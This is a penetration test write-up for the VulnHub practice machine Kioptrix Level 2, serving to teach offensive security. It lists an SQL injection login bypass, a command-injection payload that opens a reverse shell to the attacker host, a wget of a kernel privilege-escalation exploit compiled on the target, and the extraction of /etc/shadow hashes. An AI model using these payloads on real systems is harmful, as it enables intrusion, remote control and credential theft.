Kioptrix Level 2 — Penetration Test Report
Machine Info
| Field | Value |
|---|---|
| Machine | Kioptrix Level 2 |
| Platform | VulnHub |
| IP Address | 172.20.10.4 |
| OS | Linux (CentOS, Kernel 2.6.9-55.EL) |
| Difficulty | Easy |
| Date | 2026-07-07 |
Executive Summary
Kioptrix Level 2 was compromised through a two-stage web attack chain. A SQL injection vulnerability on the login page provided unauthenticated access to an administrative console, which contained a command injection vulnerability in a ping utility that yielded a reverse shell as the apache user. Privilege escalation to root was achieved by exploiting a local kernel vulnerability (CVE-2009-2698) targeting the ip_append_data() function in Linux kernel 2.6.9. Post-exploitation included extraction of password hashes from /etc/shadow.
Reconnaissance
Objective
Identify the live host on the network, discover open ports, identify running services and their versions, and fingerprint the operating system.
Findings
Host discovery was performed using arp-scan on the local network, which identified the target at 172.20.10.4. A subsequent Nmap scan with service version detection and OS fingerprinting revealed six open ports: SSH (22), HTTP (80), HTTPS (443), rpcbind (111), CUPS (631), and MySQL (3306). The web server was identified as Apache 2.0.52 running on CentOS. OS detection placed the kernel in the Linux 2.6.9–2.6.30 range. MySQL returned an “unauthorized” banner, indicating no anonymous access.
PoC:
- Tools used: arp-scan, Nmap
- Commands:
- arp-scan -l
- nmap -sV -O 172.20.10.4
- Result: Target identified. Open ports: 22 (SSH 3.9p1), 80 (Apache 2.0.52), 111 (rpcbind), 443 (Apache 2.0.52), 631 (CUPS 1.1), 3306 (MySQL — unauthorized). OS: Linux 2.6.9–2.6.30.
Enumeration
Objective
Enumerate web content, SMB shares, and investigate each discovered service for exploitable vulnerabilities.
Findings
Web enumeration revealed that the HTTPS service on port 443 was inaccessible due to an unsupported SSL version. Port 80 returned the default Apache test page at the root. Directory brute-forcing with Gobuster uncovered index.php, which presented a web login form — a significant finding missed by simply browsing to /.
SMB enumeration using enum4linux identified several usernames (administrator, root, bin, guest, none) but failed to establish a session, making SMB a dead end.
Service exploit research was conducted for each enumerated service. Searchsploit and Metasploit were used to query exploits for Apache 2.0.52, rpcbind, and CUPS 1.1. Apache results returned no reliable remote code execution modules. rpcbind results were limited to denial-of-service. CUPS 1.1 had searchsploit entries but no matching Metasploit modules and no exploitable remote vector. All three services were ruled out as initial access vectors.
PoC:
- Tools used: Gobuster, enum4linux, searchsploit, Metasploit
- Commands:
- gobuster dir -u http://172.20.10.4 -w <wordlist>
- enum4linux 172.20.10.4
- searchsploit apache 2.0.52
- searchsploit rpcbind
- searchsploit cups 1.1
- msfconsole → search apache 2.0 / search rpcbind / search cups 1.1
- Result: index.php discovered (HTTP 200). Usernames enumerated via SMB. No exploitable remote vulnerabilities found for Apache, rpcbind, or CUPS via searchsploit or Metasploit.
Exploitation — Initial Foothold
Description
The login form at index.php was vulnerable to SQL injection, allowing authentication bypass with a crafted payload. Once authenticated, the administrative console exposed a network ping utility at pingit.php that passed user input directly to a shell command without sanitization, enabling OS command injection and resulting in a reverse shell as the apache user.
PoC — Steps to Reproduce
Phase 1 — SQL Injection Login Bypass
- Navigate to
http://172.20.10.4/index.php. - In the username field, enter the payload
' OR 1=1 -- -and submit with any password. - The application authenticates and redirects to the administrative console.


Phase 2 — Command Injection → Reverse Shell
- On the attacker machine, start a Netcat listener:
nc -lvnp 4444. - In the ping utility field on
pingit.php, submit the following payload:172.20.10.4 & sh -i >& /dev/tcp/172.20.10.5/4444 0>&1 - The application executes the injected command. A reverse shell connects back to the listener.
- Confirm access:
whoamireturnsapache;idreturnsuid=48(apache) gid=48(apache). - Confirm kernel version:
uname -areturnsLinux kioptrix.level2 2.6.9-55.EL.





Privilege Escalation
Description
The target kernel version (2.6.9-55.EL) is affected by CVE-2009-2698, a local privilege escalation vulnerability in the ip_append_data() function within the Linux kernel’s UDP socket handling. Exploitation causes a Ring 0 privilege escalation, granting full root access. The exploit (EDB-9542) was identified via searchsploit, transferred to the target, compiled in place, and executed.
PoC — Steps to Reproduce
- On the attacker machine, search for a suitable kernel exploit:
searchsploit linux kernel 2.6.9 local privilege - Identify exploit
linux_x86/local/9542.c(CVE-2009-2698). - Copy the exploit to the working directory:
searchsploit -m linux_x86/local/9542.c. - Serve the exploit over HTTP from the attacker machine:
python3 -m http.server 8080 - On the reverse shell (as
apache), navigate to a writable directory and download the exploit:cd /tmpwget http://172.20.10.5:8080/9542.c - Compile the exploit on the target:
gcc 9542.c -o exploit - Execute the exploit:
./exploit - Confirm root:
whoamireturnsroot;idreturnsuid=0(root) gid=0(root) groups=48(apache).


Post-Exploitation
With root access, /etc/passwd and /etc/shadow were read to extract system user accounts and password hashes. The unshadow utility was used on the attacker machine to combine the files into a format suitable for offline cracking. The root account password was also reset via passwd to confirm persistent access. Root login was verified directly on the VMware console.
Lessons Learned
SQL injection remains a critical first target on web login forms. Even with SMB usernames available, credential attacks against the login form were unnecessary — the form itself was bypassed entirely with a classic OR 1=1 payload. Checking for SQLi before attempting brute force saves significant time.
Service enumeration should not stop at “no Metasploit module.” Apache, rpcbind, and CUPS all had searchsploit entries, but none provided a viable remote exploit. The real attack surface was the web application layer — not the underlying services. Enumerate web content thoroughly before concluding there is no path in.
Kernel version is a critical post-shell data point. uname -a immediately after landing a shell is essential. The kernel version (2.6.9-55.EL) narrowed the privilege escalation search significantly and led directly to a working exploit.
Initial access does not require a writable web root. The wget to /var/www/html failed due to permissions, but /tmp was writable and gcc was available on the target. Old Linux systems often have compilers installed — exploits can be compiled in place rather than transferred as binaries.